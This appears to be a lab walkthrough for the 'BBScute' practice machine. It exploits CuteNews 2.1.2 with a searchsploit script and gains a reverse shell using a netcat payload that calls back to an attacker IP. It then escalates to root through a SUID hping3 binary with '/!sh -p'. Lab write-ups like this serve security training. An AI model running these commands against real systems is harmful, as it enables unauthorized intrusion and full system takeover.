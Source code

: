 # BBScute - Walkthrough

## 🧗 Initial Foothold

### 🌐 1. Web Recon on Port 80
- Discovered `index.php` hosted on port `80`.
- Identified the CMS: **CuteNews 2.1.2**

### 🐍 2. Exploit CMS
- Used `searchsploit` to find an exploit:
  - **Exploit ID:** 48800.py
- Modified a few lines in the script to match target setup:
  - Set the target URL:
    ```python
    url = "http://192.168.169.128/"
    ```
- Payload used:
  ```bash
  busybox nc 192.168.45.179 80 -e sh
  ```
- Set up listener on attack machine and received a basic shell.

---

## ⚙️ Privilege Escalation

### 🔍 1. Run `linpeas.sh`
- Found interesting SUID binary:
  ```
  /usr/sbin/hping3
  ```

### 🔧 2. Exploit hping3 for SUID Priv Esc
```bash
/usr/sbin/hping3
```

Once in the hping3 interactive prompt, run:
```bash
/!sh -p
```

- Spawned a root shell via the `-p` flag (preserves privileges).

---

## 🧠 Notes

- Classic example of CMS RCE → reverse shell → SUID binary → root.
- The `hping3` binary is commonly exploitable when marked as SUID.
